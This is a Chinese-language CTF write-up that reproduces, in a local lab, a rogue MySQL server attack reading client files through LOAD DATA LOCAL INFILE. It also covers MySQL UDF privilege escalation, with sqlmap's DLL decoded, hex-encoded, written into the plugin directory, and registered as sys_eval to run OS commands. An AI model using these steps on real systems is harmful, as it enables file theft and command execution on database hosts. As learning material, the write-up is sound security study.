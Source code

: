 ## 1.only_SQL
本题由于环境原因，只存在理论复现
我们首先总结两个知识点 
> 1.SQL恶意文件下载
> 2.UDF提权

这里仅复现知识点，因为题目环境不存在，暂时无法完整的复习题目的完整操作

### 0x01-SQL恶意文件下载

#### 基本SQL语句预知
```
LOAD DATA INFILE
```
语句用于快速地从一个文本文件中读取行，并写入一个表中，文件名必须为一个字符串
LOAD DATA INFILE是 `select ... INTO OUTFILE` 的相对语句，LOAD是把文件中的内容读入表中，而INTO，则是把表中数据写入文件中
还有一个LOAD DATA LOCAL INFILE ，即我们可以把MYSQL客户端本地文件中的内容insert到某张表中

稍微想一下，我们如果想要得到靶机上的某个文件的内容，肯定只能用LOAD DATA LOCAL INFILE，因为最终得到文件内容的是服务端，我们是构造恶意SQL服务端，然后获取到客户端的内容。
现在我们物理机上开一个SQL服务 ，然后用kali机当作客户机去连接物理机的MYSQL服务

![](https://raw.githubusercontent.com/Stoocea/CTF_Self_Re0/main/2024%E8%A5%BF%E6%B9%96%E8%AE%BA%E5%89%91/only_sql/img/1.png)


这个时候就将我们客户端上的/etc/passwd的内容给抓取到了服务端上

#### 漏洞原理
上述过程的问题在于，客户端发送哪个文件的内容取决于服务端想要哪个文件，如果服务端是一个恶意MYSQL服务，它可以读取任意文件内容，就与我们刚才所读取的/etc/passwd一样
基本步骤如下
```
1.用户在客户端输入 ：load data local file “/data.txt” into table test;

2.客户端->服务端：我想把我本地的data.txt文件插入到test表中

3.服务端->客户端：先把你本地的data文件的内容给我

4.客户端->服务端：发送data文件内容
```
需要了解的是
1.
事实上绝大部分的客户端连接服务端的实现里，第一步和第二步都不是必要的，客户端发送任意的查询给服务器，服务端都会返回文件发送的请求，而且大部分客户端在连接服务端时都会有一些服务器配置的查询，所以使用这些客户端，只要创建了到恶意MYSQL服务器的连接，那么客户端所在的服务器上的所有文件都有可能泄露
2.
MYSQL客户端如果想要实现获取本地文件写到服务器MYSQL表中的功能，必须开启 `--enable-local-infile` 选项，而绝大部分的客户端是开启了这一选项的，比如开启这个选项是JDBC驱动的一个创建连接的配置项

##### 攻击流程
```
1.攻击者开启伪造的恶意MYSQL服务器，使受害者客户端连接恶意MYSQL服务器

2.受害者向恶意MTSQL服务器发送请求，并尝试进行身份认证

3.恶意MYSQL服务器接受到受害者的连接请求后，发送正常的请求，并且夹带LOAD DATA LOCAL INFILE语句的请求，来读取客户端的敏感文件

4.受害者首先会验证客户端的身份认证请求，然后会执行之后LOAD DATA LOCAL INFILE的语句

5.恶意服务器上存入客户端的敏感文件内容

```

具体的实现脚本，可以参考如下
-  [https://github.com/rmb122/rogue_mysql_server](https://github.com/rmb122/rogue_mysql_server)
- [https://github.com/Gifts/Rogue-MySql-Server](https://github.com/Gifts/Rogue-MySql-Server)

接下来是漏洞复现：
首先我们先在kali机上运行上面的脚本，开启一个虚假的MYSQL服务，并且将里面的指定读取的文件为 `H:\\1.txt`
这里是准备读取我物理机windows上的1.txt的内容："this is a test"

![](https://raw.githubusercontent.com/Stoocea/CTF_Self_Re0/main/2024%E8%A5%BF%E6%B9%96%E8%AE%BA%E5%89%91/only_sql/img/2.png)
之后用python2去执行脚本文件，python3会有一些语法错误
![](https://raw.githubusercontent.com/Stoocea/CTF_Self_Re0/main/2024%E8%A5%BF%E6%B9%96%E8%AE%BA%E5%89%91/only_sql/img/3.png)
之后会在当前目录下生成一个mysql.log文件，它不仅会记录我们之后客户端的请求信息，而且还会记录我们脚本中指定要读取的文件内容
之后我们windows物理机进行mysql连接，这里的话其实用户密码什么的随便填
![](https://raw.githubusercontent.com/Stoocea/CTF_Self_Re0/main/2024%E8%A5%BF%E6%B9%96%E8%AE%BA%E5%89%91/only_sql/img/4.png)

之后我们读取一下kali机的mysql.log的内容
![](https://raw.githubusercontent.com/Stoocea/CTF_Self_Re0/main/2024%E8%A5%BF%E6%B9%96%E8%AE%BA%E5%89%91/only_sql/img/5.png)

发现最新的一条记录 "INFO:Result: \x02this is a test"，说明恶意读取成功

### 0x02-UDF提权

#### 什么是UDF
UDF（user defind function）中文翻译过来就是用户自定义函数，是mysql里面用来对功能扩充的一种方式，UDF文件在windows与linux系统下的后缀分别为dll与so，即动态链接库文件，一般都是由C，或者C++编写的

#### 利用条件
1.mysql配置文件中的 secure_file_priv项设置为空，如果为null或者/tmp等指定目录，则无法自定udf文件导出位置，也就无法利用

2.CREATE权限和FILE权限

3.INSERT，UPDATE,DELETE权限如果拥有的话，则也存在利用情况

如何检测权限项呢？

1.查看当前数据库用户权限
```
select * from mysql.user where user = substring_index(user(), '@', 1)\G;
```
有时候会报错，去掉\G再尝试

![](https://raw.githubusercontent.com/Stoocea/CTF_Self_Re0/main/2024%E8%A5%BF%E6%B9%96%E8%AE%BA%E5%89%91/only_sql/img/6.png)
如果有如上图的情况，权限设置前几项都是Y（yes）的话，就存在利用情况

除此之外，还要依据版本特性，因为mysql最终检索文件目录会有所不同
```
1.MYsql<5.0
导出路径随意

2. 5.0<=mysql<5.1
win2000的导出路径为C:/Winnt/udf.dll

3. Mysql >=5.1 一般是mysql文件目录下的lib/plugin，也有很多情况下 lib/plugin目录大概率不存在，需要mysql在安装时选择完整安装或者选择集成开发环境
```

UDF文件怎么生成呢？我们可以看看SQLmap的如下路径
```
sqlmap\data\udf\mysql
```

![](https://raw.githubusercontent.com/Stoocea/CTF_Self_Re0/main/2024%E8%A5%BF%E6%B9%96%E8%AE%BA%E5%89%91/only_sql/img/7.png)
上面说了 动态依赖库在win和linux中的文件类型是不同的，所以存在两种，视题目环境而定
两种文件肯定是不能直接cat出来的，会是乱码，所以我们这里需要对该文件内容进行一点处理。SQLmap中的UDF文件为了防止误杀默认是经过异或编码的，但是它也有自己带的脚本解码
在sqlmap的根目录下执行这段命令（路径原因）

```bash
python extra/cloak/cloak.py -d -i data/udf/mysql/windows/32/lib_mysqludf_sys.dll_
```
能够得到初步解码之后的udf文件，这里我们选择的是windows系统32位的脚本(我本地机用的是小p的mysql，它使用的是32位的mysql)
之后写一个python脚本将其16进制编码之后写入txt文件，之后要放入sql语句进行解码传输

```python
infile = open("./lib_mysqludf_sys.dll", "rb")

outfile = open("out.txt", "w")

def main():

    while 1:

        c = infile.read(1)

        if not c:

            break

        outfile.write(hex(ord(c)))

    outfile.close()

    infile.close()

if __name__ == '__main__':

    main()
```

大致结构如下
![](https://raw.githubusercontent.com/Stoocea/CTF_Self_Re0/main/2024%E8%A5%BF%E6%B9%96%E8%AE%BA%E5%89%91/only_sql/img/8.png)
这里还有一个小问题就是我们用python脚本得到的dll文件内容每个字符都带有0x前缀，这里随意用什么方法去掉0x即可


之后就是3步走，我们需要得到如下3个路径
- 1.mysql的版本
- 2mysql的安装目录
- 3.mysql的plugin路径
这三种方法只为了确定一件事：我们最终要存放的动态链接库的路径在哪，结合上面说的版本问题，确定plugin路径（本题的路径有点小绕->p1ugin）

```sql

select version();
elect @@basedir ;
show variables like '%plugin%';
----->得到结果
E:\somephp\php\phpstudy_pro\Extensions\MySQL5.7.26\lib\plugin
```
如果师傅们是像我这样的本地环境测试，还是用小p的mysql搭建的话，要事先改一下my.ini配置文件
![](https://raw.githubusercontent.com/Stoocea/CTF_Self_Re0/main/2024%E8%A5%BF%E6%B9%96%E8%AE%BA%E5%89%91/only_sql/img/9.png)

之后就是把我们的dll文件的内容写入plugin目录了，用dumpfile也是为了不破坏文件结构
写入之后我们再通过将指定函数的执行内容的依赖设置为我们的恶意dll动态依赖库
```sql
select unhex('...') into dumpfile "plugin目录";


create function sys_eval returns string  SONAME 'E:\\somephp\\php\\phpstudy_pro\\Extensions\\MySQL5.7.26\\lib\\plugin\\udf2.dll';
```
如出现下图报错，请确认my.ini中的plugin路径是否正确
![](https://raw.githubusercontent.com/Stoocea/CTF_Self_Re0/main/2024%E8%A5%BF%E6%B9%96%E8%AE%BA%E5%89%91/only_sql/img/10.png)

之后执行函数即可
```
select sys_eval('ipconfig');
```

